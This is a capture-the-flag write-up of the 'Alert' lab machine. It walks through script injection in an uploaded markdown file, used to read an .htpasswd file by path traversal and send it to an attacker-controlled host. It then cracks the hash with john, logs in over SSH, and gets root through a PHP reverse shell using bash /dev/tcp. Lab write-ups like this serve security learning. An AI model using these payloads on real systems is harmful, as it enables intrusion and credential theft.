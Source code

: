 ```yaml
---
sticker: emoji//1f534
---
```


# ALERT

## ENUMERATION

***

### OPEN PORTS

***

| PORT | SERVICE |
| ---- | ------- |
| 22   | ssh     |
| 80   | http    |

We need to add `alert.htb` to `/etc/hosts` in order to access the website

`echo 'IP alert.htb' | sudo tee -a /etc/hosts`

Nice, let's begin with reconnaissance.

## RECONNAISSANCE

***

When we first access the website, we can find this:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110145426.png)

It is a markdown viewer website, we can only upload files with a `.md` extension, which is the markdown extension, let's upload a file and analyze its behavior using burp:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110150021.png)

## EXPLOITATION

***

The server basically processes the file with a function called `visualizer.php`, we need to upload a malicious `.md` file, I found we can perform \[\[CYBERSECURITY/Bug Bounty/Vulnerabilities/SERVER SIDE VULNERABILITIES/FILE INCLUSION VULNERABILITIES/LOCAL FILE INCLUSION (LFI).md|LFI]] let's reproduce these steps:

```js
<script>
fetch("http://alert.htp/messages.php?file=../../../../../../../var/www/statistics.alert.htb/.htpasswd")
  .then(response => response.text())
  .then(data => {
    fetch("http://IP:PORT/?file_content=" + encodeURIComponent(data));
  });
</script>
```

We are using `statistics.alert.htb` since I found that subdomain while fuzzing, it needed credentials.

```ad-hint
1. Upload a markdown file with the script embedded above.
2. Set up a python server to get the contents of the file we are going to read.
3. Receive the data in our python server.


##### Output
----
![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110154608.png)

We got the following data from `.htpasswd`, htpasswd is used to create and update the flat-files used to store usernames and password for basic authentication of HTTP users.

It is url encoded, so, we get this: 

`%3Cpre%3Ealbert%3A%24apr1%24bMoRBJOg%24igG8WBtQ1xYDTQdLjSWZQ%2F%0A%3C%2Fpre%3E%0A`

When we decode the data:

`<pre>albert:$apr1$bMoRBJOg$igG8WBtQ1xYDTQdLjSWZQ/</pre>`

Let's use john to crack the hash, we can use the following command: 

`john --wordlist=/usr/share/wordlists/rockyou.txt --format=md5crypt-long hash.txt`

We get the following output:

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110155239.png)

So, we got the following credentials:

`albert`:`manchesterunited`
```

Let's log into ssh with the found credentials:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110155457.png)

We are able to read `user.txt`:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110155516.png)

```ad-important
User: `c0ebbe25578f5ccb7a536e93d4e69238`
```

Let's begin PRIVESC

## PRIVILEGE ESCALATION

***

Let's run linpeas:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110160337.png)

First, there's something running on port `8080`, let's use ssh tunneling, but I also found something interesting:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110160647.png)

There's a directory that has root access, let's reproduce the following steps in order to get a root shell:

```php
<?php
exec("/bin/bash -c 'bash -i >/dev/tcp/IP/PORT 0>&1'");
?>
```

```ad-hint
1. Create a `.php` file with the contents above, save the file at `opt/website-monitor/config`
2. Use ssh tunneling to view the contents of the website running on port `8080`: `ssh -L 8080:127.0.0.1:8080 albert@alert.htb`.
3. Set up listener regarding the port we specified in the file we created.
4. Visit `127.0.0.1:8080/nameofthefileuploaded.php` 
5. Receive root connection on our listening netcat.

### Output
----

![](gitbook/cybersecurity/images/Pasted%252520image%25252020250110161332.png)

```

We got a root shell, let's read flag:

![](gitbook/cybersecurity/images/Pasted%20image%2020250110161352.png)

```ad-important
root: `f6a8586a751b4a7f1203d20b0fef1e6a`
```
